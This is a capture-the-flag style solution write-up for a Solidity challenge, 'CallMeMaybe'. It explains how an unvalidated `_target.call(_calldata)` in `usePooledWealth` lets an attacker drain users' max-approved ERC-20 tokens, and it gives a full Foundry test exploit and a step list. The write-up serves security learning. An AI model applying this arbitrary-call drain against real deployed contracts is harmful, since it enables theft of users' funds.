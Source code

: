 # CallMeMaybe Solution
Hopefully you figure out that you can use the function `usePooledWealth` to steal the tokens. The line `_target.call(_calldata);` does not validate the target contract or the calldata. This allows us to call the ERC-20 token and approve ourselves. Since we are making the call from the smart contract, we are approving the smart contract to allow us to spend its tokens. To steal 600 tokens, first we need to transfer the tokens from the users who max approved the contract. Then we are free to approve ourselves to spend the tokens.

Here is my version of the exploit:
```
function test_GetThisPassing_2() public {
    address hacker = address(0xBAD);

    uint256 startBalance = token.balanceOf(hacker);

    vm.startPrank(hacker);

    // join the group
    token.approve(address(target), 1 ether);
    target.joinGroup(1 ether);

    // iterate through and transfer the other users' tokens to the contract
    for (uint256 i; i < users.length; i++) {
        address user = users[i];
        bytes memory _calldataTransfer = abi.encodeCall(token.transferFrom, (user, address(target), token.balanceOf(user)));
        target.usePooledWealth(_calldataTransfer, address(token));
    }

    // form our approve calldata
    bytes memory _calldataApprove = abi.encodeCall(token.approve, (hacker, type(uint256).max));
    
    // call the contract approving ourselves to spend the tokens
    target.usePooledWealth(_calldataApprove, address(token));

    // transfer out the tokens
    token.transferFrom(address(target), hacker, 601 ether);

    vm.stopPrank();
    assertGt(token.balanceOf(hacker), 300 ether);
}
```
To summarize here is the steps we needed to complete the hack:

1. Join the group so we have access to call `usePooledWealth`.

2. Loop through each user transferring their tokens to the smart contract via `usePooledWealth`.

3. Use `usePooledWealth` to call `approve` on the ERC20 token.

4. Use `transferFrom` to steal the tokens from the contract.


I would like to point out that we stole address(0x03)'s tokens even though they were no longer a part of the group. This is why it is dangerous to max approve a smart contract!

This exploit is special to me as I found one in my first C4 contest. Hopefully, you now know to check for similar bugs when you see a smart contract use `call` with user inputted calldata!
